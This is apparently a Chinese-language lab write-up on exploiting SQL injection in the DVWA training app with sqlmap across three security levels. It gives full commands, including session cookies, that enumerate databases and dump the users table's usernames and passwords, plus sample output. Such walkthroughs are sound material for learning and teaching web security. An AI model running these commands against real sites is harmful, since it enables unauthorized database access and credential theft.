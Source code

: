 # SQL Injection + sqlmap

> ## @Date：2021-4-28
>
> ## @Author：Tanyiqu



## low

直接跑发现不可以

```shell
sqlmap.py -u "http://193.168.4.20/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs --flush-session
```



加上cookie跑一下试试，打开浏览器调试，输入 document.cookie，可以查看cookie

```shell
sqlmap.py -u "http://193.168.4.20/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=0m1toehgd6t5h4oqnfsqcjpk05; security=low" --dbs --flush-session --batch
```



成功

```shell
[15:04:43] [INFO] fetching database names
available databases [4]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema
```



爆库

```shell
# 获取dvwa库的所有表
sqlmap.py -u "http://193.168.4.20/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=0m1toehgd6t5h4oqnfsqcjpk05; security=low" -D dvwa --tables --batch --flush-session

# 获取users表的所有列
sqlmap.py -u "http://193.168.4.20/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=0m1toehgd6t5h4oqnfsqcjpk05; security=low" -D dvwa -T users --columns --batch --flush-session

# 获取users表其中几列的数据
sqlmap.py -u "http://193.168.4.20/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=0m1toehgd6t5h4oqnfsqcjpk05; security=low" -D dvwa -T users -C "user,user_id,password" --dump --batch --flush-session
```

<br>

## medium

中级的和低级的就是get请求和post请求的区别

直接开跑，别忘了带上cookie

```shell
sqlmap.py -u "http://193.168.4.20/vulnerabilities/sqli/" --method=POST --data="id=1&Submit=Submit" --dbs --cookie="PHPSESSID=0m1toehgd6t5h4oqnfsqcjpk05; security=medium" --batch --flush-session
```



<br>

## high

使用bp抓包，发送的是post请求，但是提交页面与查询结果显示页面不是同一个

可以使用 --second-url 参数解决

```shell
sqlmap.py -u "http://193.168.4.20/vulnerabilities/sqli/session-input.php#" --method=POST --data="id=1&Submit=Submit" --second-url="http://193.168.4.20/vulnerabilities/sqli/" --cookie="PHPSESSID=0m1toehgd6t5h4oqnfsqcjpk05; security=high" --dbs --batch --flush-session
```

参考：https://blog.csdn.net/qq_42630215/article/details/106402831

<br>

更多方法待补充